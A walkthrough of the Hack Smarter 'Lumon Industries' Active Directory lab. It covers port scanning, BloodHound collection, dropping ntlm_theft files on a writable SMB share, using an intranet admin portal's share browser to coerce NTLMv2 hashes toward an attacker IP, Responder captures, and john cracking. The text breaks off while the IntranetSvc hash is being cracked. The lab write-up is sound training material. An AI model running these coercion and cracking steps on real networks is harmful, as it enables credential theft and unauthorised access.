In this walkthrough, we will be compromising Lumon Industries, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting from assumed-breach credentials for `hellyr` against two hosts: the domain controller and an intranet web server. `hellyr` holds write access on an intranet share, and dropping ntlm_theft files there coerces a hash from `harmonyc` that cracks with john. `harmonyc` reaches the intranet's admin portal, whose file-share browser authenticates as `IntranetSvc` when we point it at our host, and that hash cracks too. `IntranetSvc` holds `ForceChangePassword` over `marks`, a member of `LAPSADMINS`, so we reset the password, take a WinRM shell on the intranet server, and read its LAPS password for `localadmin`. A remote dump as that local account comes back empty, so we RDP in and add `marks` to the local Administrators group instead, which lets NetExec dump a cached logon for the Domain Admin `hellye`. The cached hash cracks, and `hellye` logs in to the domain controller over RDP.


Created by: [NoxLumens](https://www.hacksmarter.org/courses/a952a025-4b22-47cd-bd75-d92cf5e524e9)

Let's get started.

## Objective

Lumon Industries will soon be integrating a high-value employee into the organization. In accordance with internal security protocols, a comprehensive penetration test and internal access verification must be conducted prior to full onboarding.

For the purposes of this evaluation, you will be provided the assigned credentials and access permissions corresponding to the subject employee. Your objective is to assess the scope and boundaries of these permissions, ensuring compliance with all Lumon security standards and operational safeguards.

**Starting Credentials**

```
hellyr:H3lenaR!2025
```

## Scope

**Target (DC01):** `10.1.179.113`
**Target (Intranet):** `10.1.230.230`

## RustScan (DC01)

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.179.113 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-10-03 21:49:18Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: lumons.hacksmarter, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.lumons.hacksmarter
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.lumons.hacksmarter
| Issuer: commonName=LumonsRootCA/domainComponent=lumons
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-09T19:23:24
| Not valid after:  2026-10-09T19:23:24
| MD5:     f690 7d81 caee b29a cc56 a2f5 aab2 8910
| SHA-1:   e28c 618f 5cab f523 5e75 f4b1 c4c3 4a86 b3c1 9464
| SHA-256: cb19 8d0e 7634 04a7 5565 2eba 5cdb f383 dd39 0643 dafd 6535 0196 d50e 975b 8e25
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: lumons.hacksmarter, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.lumons.hacksmarter
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.lumons.hacksmarter
| Issuer: commonName=LumonsRootCA/domainComponent=lumons
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-09T19:23:24
| Not valid after:  2026-10-09T19:23:24
| MD5:     f690 7d81 caee b29a cc56 a2f5 aab2 8910
| SHA-1:   e28c 618f 5cab f523 5e75 f4b1 c4c3 4a86 b3c1 9464
| SHA-256: cb19 8d0e 7634 04a7 5565 2eba 5cdb f383 dd39 0643 dafd 6535 0196 d50e 975b 8e25
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: lumons.hacksmarter, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.lumons.hacksmarter
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.lumons.hacksmarter
| Issuer: commonName=LumonsRootCA/domainComponent=lumons
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-09T19:23:24
| Not valid after:  2026-10-09T19:23:24
| MD5:     f690 7d81 caee b29a cc56 a2f5 aab2 8910
| SHA-1:   e28c 618f 5cab f523 5e75 f4b1 c4c3 4a86 b3c1 9464
| SHA-256: cb19 8d0e 7634 04a7 5565 2eba 5cdb f383 dd39 0643 dafd 6535 0196 d50e 975b 8e25
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: lumons.hacksmarter, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.lumons.hacksmarter
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.lumons.hacksmarter
| Issuer: commonName=LumonsRootCA/domainComponent=lumons
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-09T19:23:24
| Not valid after:  2026-10-09T19:23:24
| MD5:     f690 7d81 caee b29a cc56 a2f5 aab2 8910
| SHA-1:   e28c 618f 5cab f523 5e75 f4b1 c4c3 4a86 b3c1 9464
| SHA-256: cb19 8d0e 7634 04a7 5565 2eba 5cdb f383 dd39 0643 dafd 6535 0196 d50e 975b 8e25
3389/tcp  open  ms-wbt-server syn-ack ttl 126
| ssl-cert: Subject: commonName=DC01.lumons.hacksmarter
| Issuer: commonName=DC01.lumons.hacksmarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-02T21:39:15
| Not valid after:  2027-04-03T21:39:15
| MD5:     59b7 6466 47f3 d374 c1b0 75e8 6dce 1b70
| SHA-1:   b8d2 d695 86eb 47a9 6d24 d48f b613 cae8 47c4 1442
| SHA-256: 7d63 bc1e e056 96ec ced5 6e08 f70f 3dd0 4b05 6983 9056 9e88 de77 5e13 174b 144b
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info: 
|   Target_Name: LUMONS
|   NetBIOS_Domain_Name: LUMONS
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: lumons.hacksmarter
|   DNS_Computer_Name: DC01.lumons.hacksmarter
|   Product_Version: 10.0.26100
|_  System_Time: 2026-10-03T21:50:13+00:00
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49680/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49698/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49745/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
52371/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, and RDP on 3389. The LDAP banner gives us the domain as `lumons.hacksmarter`, and the certificate and RDP NTLM info confirm the hostname as `DC01.lumons.hacksmarter`. We add both to `/etc/hosts` before continuing.

## RustScan (Intranet)

We scan the intranet host the same way.

```
rustscan -a 10.1.230.230 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to https://intranet.lumons.hacksmarter/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
443/tcp   open  ssl/https?    syn-ack ttl 126
| ssl-cert: Subject: commonName=intranet.lumons.hacksmarter
| Subject Alternative Name: DNS:intranet.lumons.hacksmarter
| Issuer: commonName=intranet.lumons.hacksmarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-10-09T20:29:11
| Not valid after:  2030-10-09T20:39:09
| MD5:     bcc6 15e6 3ad0 1fc0 bf26 5af4 e112 3f41
| SHA-1:   d6ed 2dde 5b5e c1f5 94c8 0041 523d d022 ecc0 f406
| SHA-256: 0209 70e7 07e0 da05 5a05 dd21 44e4 bdf7 beb5 3a08 7a1c 544f 92ce 0750 9198 718d
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
445/tcp   open  microsoft-ds? syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126
| ssl-cert: Subject: commonName=Intranet.lumons.hacksmarter
| Issuer: commonName=Intranet.lumons.hacksmarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-10-02T21:40:15
| Not valid after:  2027-04-03T21:40:15
| MD5:     5eb7 3361 0a98 eba4 6007 5d1e 88d3 813f
| SHA-1:   48d1 7d09 073f d7fd fe4c 8a9f ef55 ddaa 8d22 ef90
| SHA-256: b51d 19ff fb61 3f6a 7897 0347 0b66 2ab7 bbd8 1ab7 9a2e fef9 5386 23db f4bc 2470
|_ssl-date: TLS randomness does not represent time
| rdp-ntlm-info: 
|   Target_Name: LUMONS
|   NetBIOS_Domain_Name: LUMONS
|   NetBIOS_Computer_Name: INTRANET
|   DNS_Domain_Name: lumons.hacksmarter
|   DNS_Computer_Name: Intranet.lumons.hacksmarter
|   DNS_Tree_Name: lumons.hacksmarter
|   Product_Version: 10.0.26100
|_  System_Time: 2026-10-03T21:56:19+00:00
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49676/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49684/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

IIS answers on 80 and redirects to HTTPS on 443 at `https://intranet.lumons.hacksmarter/`, alongside SMB on 445, RDP on 3389, and WinRM on 5985. The RDP NTLM info names the host `INTRANET` in the same `lumons.hacksmarter` domain, and the certificate on 443 is self-signed. We add `INTRANET` and `intranet.lumons.hacksmarter` to `/etc/hosts` as well.

## BloodHound Enumeration

With valid starting credentials, we collect BloodHound data first. We point NetExec at the DC for DNS with `--dns-server` so the collector can resolve the domain records it asks for.

```
nxc ldap 10.1.179.113 -u 'hellyr' -p 'H3lenaR!2025' --bloodhound --collection All --dns-server 10.1.179.113
```

```
LDAP        10.1.179.113    389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:lumons.hacksmarter) (signing:Enforced) (channel binding:When Supported) 
LDAP        10.1.179.113    389    DC01             [+] lumons.hacksmarter\hellyr:H3lenaR!2025 
LDAP        10.1.179.113    389    DC01             Resolved collection methods: psremote, dcom, group, container, acl, session, objectprops, rdp, trusts, localadmin
LDAP        10.1.179.113    389    DC01             Done in 0M 18S
LDAP        10.1.179.113    389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.179.113_2026-10-17_194613_bloodhound.zip
```

We mark `hellyr` as owned. BloodHound shows no outbound object control worth chasing from the account, and no account is Kerberoastable or AS-REP roastable.

## HTTPS (Port 443)

The intranet portal opens on a login page.



*The Lumon intranet login page on intranet.lumons.hacksmarter*

The starting credentials log in, but the portal offers `hellyr` nothing useful.



*The intranet portal after logging in as hellyr, with nothing useful on offer*

We brute-force directories with feroxbuster, adding `-k` because the certificate is self-signed.

```
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt -u 'https://INTRANET.lumons.hacksmarter/' -k
```

```
403      GET        5l       27w      213c https://intranet.lumons.hacksmarter/admin
302      GET        5l       22w      199c https://intranet.lumons.hacksmarter/logout => https://intranet.lumons.hacksmarter/login
200      GET      194l      386w     4298c https://intranet.lumons.hacksmarter/login
302      GET        5l       22w      199c https://intranet.lumons.hacksmarter/ => https://intranet.lumons.hacksmarter/login
302      GET        5l       22w      199c https://intranet.lumons.hacksmarter/home => https://intranet.lumons.hacksmarter/login
200      GET     7180l    43024w  3567246c https://intranet.lumons.hacksmarter/static/images/background.png
403      GET        5l       27w      213c https://intranet.lumons.hacksmarter/terminal
```

`/admin` and `/terminal` both return 403 Forbidden in the browser too, so we note them for later.

## SMB Enumeration

SMB is open on the intranet host too, so we check what `hellyr` can reach there.

```
nxc smb 10.1.230.230 -u 'hellyr' -p 'H3lenaR!2025' --shares
```

```
SMB         10.1.230.230    445    INTRANET         [*] Windows 11 / Server 2025 Build 26100 x64 (name:INTRANET) (domain:lumons.hacksmarter) (signing:False) (SMBv1:None)
SMB         10.1.230.230    445    INTRANET         [+] lumons.hacksmarter\hellyr:H3lenaR!2025 
SMB         10.1.230.230    445    INTRANET         [*] Enumerated shares
SMB         10.1.230.230    445    INTRANET         Share           Permissions     Remark
SMB         10.1.230.230    445    INTRANET         -----           -----------     ------
SMB         10.1.230.230    445    INTRANET         ADMIN$                          Remote Admin
SMB         10.1.230.230    445    INTRANET         C$                              Default share
SMB         10.1.230.230    445    INTRANET         IPC$            READ            Remote IPC
SMB         10.1.230.230    445    INTRANET         MDRepo          READ,WRITE  
```



*The hellyr share listing on INTRANET, with MDRepo granting READ and WRITE*

`hellyr` holds READ and WRITE on a non-standard share, `MDRepo`. smbclient has trouble connecting to it, so we mount the share locally instead.

```
sudo mkdir -p /mnt/mdrepo
```

```
sudo mount -t cifs //10.1.230.230/MDRepo /mnt/mdrepo -o username=hellyr,password='H3lenaR!2025'
```

```
cd /mnt/mdrepo
```

```
ls
```

```
 Lumons_International.pdf  'Lumons Intranet.url'
```



*The MDRepo share mounted at /mnt/mdrepo, holding Lumons_International.pdf and Lumons Intranet.url*

The share holds an Internet shortcut to the intranet and a PDF. The PDF describes the intranet portal and its use, and gives us nothing new.

## Access as harmonyc

The write access is the lead. [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) builds files that make Windows authenticate to a remote host when they are opened or their folder is viewed, and `-g all` generates every type it supports. The `-s` flag points them at our host.

```
python3 ntlm_theft.py -g all -s 10.200.103.175 -f lumon_industries
```

We start Responder on the tunnel interface to catch the incoming authentication.

```
sudo responder -I tun0
```

With Responder listening, we copy the generated files onto the share through the mount.

```
sudo cp lumon_industries/* /mnt/mdrepo
```

One of them fires, and Responder catches the NTLMv2 hash of `harmonyc`.

```
[SMB] NTLMv2-SSP Client   : 10.1.230.230
[SMB] NTLMv2-SSP Username : LUMONS\harmonyc
[SMB] NTLMv2-SSP Hash     : harmonyc::LUMONS:9b744842935f0019:F85C782AEA7AB2A0DD2D721BEE0A71F4:010100000000000000E8E946725EDD0103A19EADF223AAE00000000002000800360035003800370001001E00570049004E002D003100380046005700310035003000450041004900470004003400570049004E002D00310038004600570031003500300045004100490047002E0036003500380037002E004C004F00430041004C000300140036003500380037002E004C004F00430041004C000500140036003500380037002E004C004F00430041004C000700080000E8E946725EDD0106000400020000000800300030000000000000000000000000300000A94136F84B60A9BC9793EE3D4F21D95B233E61CC8A04496EC04901E023954DFA0A001000000000000000000000000000000000000900260063006900660073002F00310030002E003200300030002E003100300033002E003100370035000000000000000000
```



*Responder catching the NTLMv2 hash for LUMONS\harmonyc*

We save the hash to `harmonyc_hash.txt` and crack it with john.

```
john harmonyc_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
h@rmony08        (harmonyc)     
1g 0:00:00:01 DONE (2026-10-17 20:04) 0.6802g/s 5257Kp/s 5257Kc/s 5257KC/s ha2896..h4x0rm4570r
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```



*john recovering h@rmony08 from the harmonyc NTLMv2 hash*

Cracked. We validate the credentials against the DC.

```
nxc smb 10.1.179.113 -u 'harmonyc' -p 'h@rmony08' --shares
```

```
SMB         10.1.179.113    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:lumons.hacksmarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.179.113    445    DC01             [+] lumons.hacksmarter\harmonyc:h@rmony08 
SMB         10.1.179.113    445    DC01             [*] Enumerated shares
SMB         10.1.179.113    445    DC01             Share           Permissions     Remark
SMB         10.1.179.113    445    DC01             -----           -----------     ------
SMB         10.1.179.113    445    DC01             ADMIN$                          Remote Admin
SMB         10.1.179.113    445    DC01             C$                              Default share
SMB         10.1.179.113    445    DC01             IPC$            READ            Remote IPC
SMB         10.1.179.113    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.179.113    445    DC01             SYSVOL          READ            Logon server share 
```



*Validating harmonyc credentials with NetExec*

The credentials are valid and give us read access to the default shares.

## Access as IntranetSvc

We mark `harmonyc` as owned. BloodHound shows the account in the Administration group.



*BloodHound showing harmonyc membership in Administration*

The group name points back at the intranet's `/admin` path, so we log in to the portal as `harmonyc` and request it again. It loads, and offers several functions, including `Unlock AD Account`, `Ping Server`, and `Browse File Share`. We test `Browse File Share` first.



*The intranet admin portal as harmonyc, with the Browse File Share function*

`Browse File Share` takes a UNC path and has the server browse it, so any authentication that reaches our host comes from the server rather than from `harmonyc`. We restart Responder.

```
sudo responder -I tun0 
```

Then we enter a share on our machine as the path and click `Browse File Share`.

```
\\10.200.103.175\Share
```

Responder catches the NTLMv2 hash of `IntranetSvc`, the account the server browses with.

```
[SMB] NTLMv2-SSP Client   : 10.1.230.230
[SMB] NTLMv2-SSP Username : LUMONS\IntranetSvc
[SMB] NTLMv2-SSP Hash     : IntranetSvc::LUMONS:51d13f4c4f14aec0:AAF2BDE65E3EE66EA90382C1FEFDA028:01010000000000008036E22D745EDD018C94F2ED3CE92D8B00000000020008005700340059004A0001001E00570049004E002D00420056004D0037005A0034004F005700540052004E0004003400570049004E002D00420056004D0037005A0034004F005700540052004E002E005700340059004A002E004C004F00430041004C00030014005700340059004A002E004C004F00430041004C00050014005700340059004A002E004C004F00430041004C00070008008036E22D745EDD0106000400020000000800300030000000000000000100000000200000A94136F84B60A9BC9793EE3D4F21D95B233E61CC8A04496EC04901E023954DFA0A001000000000000000000000000000000000000900260063006900660073002F00310030002E003200300030002E003100300033002E003100370035000000000000000000
```



*Responder catching the NTLMv2 hash for LUMONS\IntranetSvc after the admin portal browses our share*

We save the hash to `intranetsvc_hash.txt` and crack it with john.

```
john intranetsvc_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
